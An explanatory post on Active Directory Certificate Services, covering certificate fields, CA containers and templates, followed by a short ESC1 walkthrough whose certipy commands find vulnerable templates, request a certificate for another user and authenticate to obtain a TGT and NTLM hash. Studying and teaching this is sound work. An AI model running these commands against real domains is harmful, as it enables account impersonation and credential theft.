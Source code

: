 ```yaml
---
title: ADCS - Active Directory Certificate Services
layout: post
date: 2025-05-13
description: "Active Directory Certificate Services (ADCS) is a Microsoft server role that provides customizable services for creating and managing public key certificates used in software security systems."
permalink: /theory/windows/AD/adcs/
---
```


## Overview
Active Directory Certificate Services (ADCS) is a Microsoft server role that provides customizable services for creating and managing public key certificates used in software security systems. It is part of the Windows Server operating system and is used to create a public key infrastructure (PKI) that can be used to secure communications, authenticate users, and encrypt data.

ADCS allows organizations to issue and manage digital certificates, which are used to verify the identity of users, devices, and services.

## ADCS Terms

### Certificates

A digital certificate is an electronic document used to prove the ownership of a public key. It contains information about the key, the identity of its owner (the subject), and the digital signature of an entity that has verified the certificate's contents, usually a trusted third party known as a Certificate Authority (CA).

It is a `X-509-formatted` file that contains the following information:
- **Subject**: The entity that the certificate represents (e.g., a user, device, or service).
- **Public Key**: The public key associated with the subject.
- **Not Before** and **Not After**: The validity period of the certificate.
- **Issuer**: The entity that issued the certificate (usually a CA).
- **Serial Number**: A unique identifier for the certificate.
- **Subject Alternative Name (SAN)**: Additional identities associated with the certificate (e.g., DNS names, IP addresses).
- **Basic Constraints**: Indicates whether the certificate can be used as a CA certificate or an end-entity certificate.
- **Extended Key Usage**: Specifies the purposes for which the certificate can be used (e.g., server authentication, client authentication, code signing).
- **Signature Algorithm**: The algorithm used to sign the certificate.



### Certificate Authority (CA)

A Certificate Authority (CA) is a trusted entity that issues digital certificates. The CA verifies the identity of the entity requesting the certificate and signs the certificate with its private key. This process ensures that the certificate can be trusted by other entities.

The root CA certificate is the top-level certificate in a certificate hierarchy. It is self-signed and serves as the trust anchor for all other certificates issued by the CA.

ADCS stores trusted root CA in four locations under the container `CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=com`:
- `Certification Authorities container`: Defines top-tier root CA certificates
- `Enrolment Services container`: Encapsulates key attributes such as pKIEnrollmentService objectClass, cACertificate data, dNSHostName and certificateTemplates
- `NTAuthCertificates AD object`: Contains cACertificate properties defining a series of trusted CA certificates
- `AIA (Authority Information Access) container`: Aids in validating certificate chains

### Certificate Templates

Certificate templates are used to establish certificate properties and settings for different types of certificates, that include enrolment policies, key usage, and security settings. They define the attributes and constraints of the certificates issued by a CA.


## ADCS Attacks

### ESC1

The ESC1 attack is a method used to exploit the Active Directory Certificate Services (ADCS) to issue certificates for any user or computer account in the domain. This attack takes advantage of the fact that ADCS does not enforce strict access controls on certificate templates, allowing an attacker to request a certificate for any account.

#### ESC1 Requirements
- Low-privileged users with enrollment permissions on a certificate template
- Manager approval should be turned off 
- No authorized signatures are required
- The certificate template must be configured to allow the user to request a certificate for any account
- Certificate template allows requesters to specify a `subjectAltName(SAN)` in the `CSR` (Certificate Signing Request)

#### ESC1 Steps

**Enumeration**

```bash
certipy find -u 'mhijuxs@sw4.local' -p 'Password123!' -dc-ip <DC-IP> -vulnerable -stdout
```
> Command breakdown:
> - `certipy find`: Find vulnerable certificate templates
> - `-u`: User to authenticate as
> - `-p`: Password for the user
> - `-dc-ip`: IP address of the domain controller 
> - `-vulnerable`: Output only vulnerable certificate templates
> - `-stdout`: Output to standard output
{: .prompt-info}

**Requesting Certificate**

```bash
certipy req -u 'mhijuxs@sw4.local' -p 'Password123!' -dc-ip <DC-IP> -ca <CA> -template <VulnerableTemplate> -upn <TargetUser> 
```

**Authenticating with the Certificate**

```bash
certipy auth -pfx <Certificate.pfx> -user <TargetUser> -dc-ip <DC-IP>
```

After that, we receive a `TGT` and the user's `NTLM` hash.

## References

- [Hack the Box - ADCS](https://www.academy.hackthebox.com)
- [Certified Pre-Owned SpecterOps](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)

